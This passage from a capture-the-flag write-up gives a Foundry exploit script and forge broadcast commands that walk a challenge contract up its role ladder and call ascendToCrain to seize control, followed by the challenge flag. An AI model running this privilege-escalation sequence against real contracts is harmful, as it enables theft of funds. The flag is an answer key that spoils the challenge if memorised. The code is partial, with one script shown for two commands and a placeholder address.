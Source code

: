 ```shell
$ forge script script/ExploitExecutive.s.sol:ExploitExecutive1 --rpc-url http://ctf.tcp1p.team:44455/01921e42-61fb-498e-8533-12498c9f96b2 --broadcast -i 1
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Setup} from "src/contracts/Setup.sol";

contract ExploitExecutive is Script {
    Setup public setup;

    function run() public {
        vm.startBroadcast();
        setup = Setup(//YOUR__SETUP__ADDR);
        setup.cexe().becomeEmployee();
        setup.cexe().buyCredit{value: 6 ether}();
        setup.cexe().becomeManager();
        setup.cexe().becomeExecutive();
        bytes memory data = abi.encodeWithSignature("ascendToCrain(address)", address(this));
        setup.cexe().transfer(address(setup.crain()), 0, data);
        vm.stopBroadcast();
    }
}
```

```shell
$ forge script script/ExploitExecutive.s.sol:ExploitExecutive2 --rpc-url http://ctf.tcp1p.team:44455/01921e42-61fb-498e-8533-12498c9f96b2 --broadcast -i 1
```

Any of the above two scripts will work; you can use either one. The only difference between the two scripts is how we get the ether. I hope you This writeup is helpful.

**Flag:** `TCP1P{Imagine_getting_kicked_out_like_that_by_s0m3_3Xecu7iVE}`

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
